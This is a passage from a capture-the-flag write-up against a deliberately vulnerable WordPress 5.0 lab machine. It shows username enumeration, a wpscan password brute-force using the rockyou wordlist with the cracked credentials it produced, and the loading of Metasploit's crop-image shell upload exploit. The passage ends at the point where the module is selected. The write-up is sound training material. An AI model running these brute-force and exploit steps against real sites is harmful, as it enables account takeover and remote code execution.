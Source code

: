 Now we know that the wordpress version currently installed on the machine is 5.0.  

**Question : What version of the above CMS was being used ?**  
**Answer : 5.0**  

### Manual enumeration

We will try to get some usernames to try brute-forcing the wordpress login page. Let's take 
a look at the index page of the website :  
![](https://i.imgur.com/DYS1EOz.jpg)  

You can notice a post made by Karen Wheeler, we can click on the author name of this post and get the username by looking at the URL :  
![](https://i.imgur.com/uOPxfvM.jpg)  

## Wordpress brute-force

Now that we have a username, we can try to brute-force it using wpscan :  
```
attacker@AttackBox:~/Documents/THM/CTF/Blog$ wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel
...
...
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                
Trying kwheel / daddyyankee Time: 00:01:11 <         > (2865 / 14347259)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
...
...
```

We have now valid credentials to log into the wordpress panel !

## Exploiting wordpress

By searching for exploits on Wordpress 5.0 using [Exploit-DB](https://www.exploit-db.com/), we can find an exploit that 
leads to a RCE (Remote Code Execution) by uploading a malicious image containing a payload 
written in php :  
![](https://i.imgur.com/E7Hpc6g.jpg)  

It's a [Metasploit](https://www.metasploit.com/) module, so we will start msfconsole and load it :  
```
msf6 > search Wordpress Crop

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_crop_rce

msf6 > use 0
```